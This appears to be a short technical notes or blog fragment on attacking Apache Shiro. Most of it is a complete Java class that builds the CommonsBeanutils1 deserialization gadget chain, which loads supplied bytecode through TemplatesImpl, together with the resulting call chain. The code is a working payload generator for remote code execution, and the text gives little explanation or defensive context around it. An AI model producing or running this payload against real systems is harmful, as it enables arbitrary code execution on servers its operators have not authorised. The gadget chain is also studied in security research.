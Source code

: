 Here is a `Payload` of the masters:

```java
package com.govuln.shiroattack;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsBeanutils1Shiro {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==========================
        // Generate serialized strings
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }
}
```

## Call chain

```java
PriorityQueue.readObject()
    BeanComparator.compare()
            PropertyUtils.getProperty()
                PropertyUtilsBean.getProperty()
                    TemplatesImpl.getOutputProperties()
```
